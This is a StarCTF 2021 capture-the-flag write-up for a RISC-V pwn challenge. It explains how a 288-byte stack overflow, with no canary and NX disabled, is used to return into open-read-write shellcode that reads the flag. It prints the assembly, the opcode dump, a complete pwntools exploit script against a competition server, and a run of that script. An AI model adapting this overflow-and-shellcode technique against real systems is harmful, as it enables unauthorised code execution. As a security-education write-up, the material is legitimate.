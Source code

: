 ```yaml
---
title: Favourite Architecture-1 - StarCTF 2021
date: 2021-01-20 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - Exploitation
  - RISC-V
  - Shellcode
  - Linux
  - StarCTF
---
```


**tl;dr**

+ Abusing a stack overflow on a RISC-V binary to then return to shellcode.

<!--more-->

**Challenge Points:** 465
**Solves:** 24
**Solved by:** [Pwn-Solo](https://twitter.com/Pwn_Solo) ,[d4rk_kn1gh7](https://twitter.com/_d4rkkn1gh7),[Cyb0rG](https://twitter.com/_Cyb0rG),[3agl3](https://twitter.com/3agl31)

## Initial Analysis 

This challenge is second in a 3 part series ,the first one being reversing and the rest pwn. This writeup involves only the challenge `favourite architecture flag1`

```
arch     riscv
baddr    0x10000
binsz    384184
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
laddr    0x0
lang     c
linenum  false
lsyms    false
machine  RISC V
nx       false
os       linux
```

A quick look in radare2 tells us that there's no canary and NX is disabled , but the qemu we had was patched to allow only certain syscalls 

``` c
+    switch (num) {
+        // syscall whitelist
+        case TARGET_NR_brk:
+        case TARGET_NR_uname:
+        case TARGET_NR_readlinkat:
+        case TARGET_NR_faccessat:
+        case TARGET_NR_openat2:
+        case TARGET_NR_openat:
+        case TARGET_NR_read:
+        case TARGET_NR_readv:
+        case TARGET_NR_write:
+        case TARGET_NR_writev:
+        case TARGET_NR_mmap:
+        case TARGET_NR_munmap:
+        case TARGET_NR_exit:
+        case TARGET_NR_exit_group:
+        case TARGET_NR_mprotect:
+            ret = do_syscall1(cpu_env, num, arg1, arg2, arg3, arg4,
+                    arg5, arg6, arg7, arg8);
+            break;
+        default:
+            printf("[!] %d bad system call\n", num);
+            ret = -1;
+            break;
+    }
```

## Debugging 

After spending hours finding a way to debug,I came across this [toolchain](http://shakti.org.in/learn_with_shakti/devenv.html) for RISC-V development which includes a gdb for RISC-V , pretty neat!

Reversing the binary isn't necessary for this part atleast. 
Triggering the bug is pretty straightforward, an input having length greater than 288 bytes gets you `pc` control (Instruction Pointer).
Since the qemu user doesn't have aslr enabled we dont have to worry about leaking stack 

## Shellcode 

Since there was a large overflow and with NX being disabled ,shellcode was the way to go .
unlike x86 , in RISC-V instructions are fixed in size ;32 or 16 bits to be precise. This needs to be taken into account while scripting the exploit.

The patched qemu disables execve syscall,but we do have `openat` `read` and `write` which is perfect , now we can construct an ORW shellcode to read the flag 

This was my first time coding assembly is RISC-V, after going through multiple [manuals](https://shakti.org.in/docs/risc-v-asm-manual.pdf) about the instruction-set I managed to write a half decent assembler code. To make a Syscall we make use of the `ecall` instruction and set the registers `a0-a7` accordingly. Also remember , the syscall numbers for RISC-V are quite different from x86 refer [syscall table](https://github.com/westerndigitalcorporation/RISC-V-Linux/blob/master/riscv-pk/pk/syscall.h)

```asm
_start:
    li s1, 0x67616c662f2f6e77
    sd s1, -16(sp)
    li s1, 0x702f2f656d6f682f
    sd s1, -24(sp)       
    sd zero, -8(sp)           
    addi a1,sp,-24                          
    slt a2,zero,-1              
    li a7, 56 	             
    ecall 

    addi a1,sp,-80
    li a2,60
    li a7, 63	
    ecall

    mv a2,a0
    li a0,1
    li a7, 64
    ecall
```

Compile and dump the opcodes
```asm
0000000000010078 <_start>:
   10078:	033b14b7          	lui	s1,0x33b1
   1007c:	b634849b          	addiw	s1,s1,-1181
   10080:	04b6                	slli	s1,s1,0xd
   10082:	62f48493          	addi	s1,s1,1583 # 33b162f <__global_pointer$+0x339fd4b>
   10086:	04b2                	slli	s1,s1,0xc
   10088:	2f748493          	addi	s1,s1,759
   1008c:	04b2                	slli	s1,s1,0xc
   1008e:	e7748493          	addi	s1,s1,-393
   10092:	fe913823          	sd	s1,-16(sp)
   10096:	038184b7          	lui	s1,0x3818
   1009a:	97b4849b          	addiw	s1,s1,-1669
   1009e:	04b6                	slli	s1,s1,0xd
   100a0:	56d48493          	addi	s1,s1,1389 # 381856d <__global_pointer$+0x3806c89>
   100a4:	04b2                	slli	s1,s1,0xc
   100a6:	6f748493          	addi	s1,s1,1783
   100aa:	04b2                	slli	s1,s1,0xc
   100ac:	82f48493          	addi	s1,s1,-2001
   100b0:	fe913423          	sd	s1,-24(sp)
   100b4:	fe013c23          	sd	zero,-8(sp)
   100b8:	fe810593          	addi	a1,sp,-24
   100bc:	fff02613          	slti	a2,zero,-1
   100c0:	03800893          	li	a7,56
   100c4:	00000073          	ecall
   100c8:	fb010593          	addi	a1,sp,-80
   100cc:	03c00613          	li	a2,60
   100d0:	03f00893          	li	a7,63
   100d4:	00000073          	ecall
   100d8:	862a                	mv	a2,a0
   100da:	4505                	li	a0,1
   100dc:	04000893          	li	a7,64
   100e0:	00000073          	ecall
```
## Exploit 

While constructing the shellcode the 32 bit and 16 bit instructions need to be packed differently or they wont be valid 

```python 
from pwn import *
import sys
import os

remote_ip,port = '119.28.89.167','60001'
binary = './qemu-riscv64  main'
#binary = './qemu-riscv64 -g 9001 main'
brkpts = ''

if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)
else:
    io = process(binary.split())

if __name__== "__main__":

    addr = 0x40007fff40
    nop = p32(0x00000013)
    sc = b''
    opcodes = ['0x033b14b7', '0xb634849b', '0x04b6', '0x62f48493', '0x04b2', '0x2f748493', '0x04b2', '0xe7748493', '0xfe913823', '0x038184b7', '0x97b4849b', '0x04b6', '0x56d48493', '0x04b2', '0x6f748493', '0x04b2', '0x82f48493', '0xfe913423', '0xfe013c23', '0xfe810593', '0xfff02613', '0x03800893', '0x00000073', '0xfb010593', '0x4651', '0x03f00893', '0x00000073', '0x862a', '0x4505', '0x04000893', '0x00000073']
    for i in opcodes:
        if len(i) == 6:
            sc += p16(int(i,16))
        else:
            sc += p32(int(i,16))

    payload = b''
    payload = payload.ljust(288,b"A") 
    payload += p64(addr)
    payload += nop*200 + sc
    io.sendlineafter('Input the flag: ',payload)
    resp = io.recvline()
    
    io.interactive()
		 
```
That's all there is to it!

lo and behold 
```bash
pwn-solo@m4ch1n3:~/ctf/favourite_architecture/share$ python3 exploit.py local
[+] Starting local process './qemu-riscv64': pid 19543
[*] Switching to interactive mode
flag{test_flag}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted

```
